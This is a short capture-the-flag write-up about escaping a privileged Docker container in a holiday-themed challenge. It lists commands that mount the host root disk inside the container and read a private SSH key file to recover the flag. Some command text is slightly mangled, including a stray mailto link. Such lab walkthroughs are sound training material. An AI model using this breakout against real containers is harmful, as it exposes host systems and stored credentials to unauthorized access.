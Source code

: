 
# Objective 6: Prison Escape
**Location: Elfen Ring / Elf House / Prison Escape Terminal**  
**Elf: Tinsel Upatree**

This objective is about getting familiar with the rest of breaking out of a docker container if the permissions are not set appropriately.
With the below commands, we determine the root filesystem of the system and mount it into the Docker container.
That way we can easily get hold of the flag in the private key file.

```
sudo root
cat /proc/cmdline
panic=1 pci=off ip=dhcp console=ttyS0 reboot=k root=/dev/vda rw virtio_mmio.device=4K@0xd0000000:5 [virtio_mmio.device=4K@0xd0001000](mailto:virtio_mmio.device%3D4K@0xd0001000):6
mkdir /mnt/joergen
mount /dev/vda /mnt/joergen
cat /mnt/joergen/home/jailer/.ssh/jail.key.priv
[...]
082bb339ec19de4935867
```

**082bb339ec19de4935867**

**Achievement: Prison Escape**
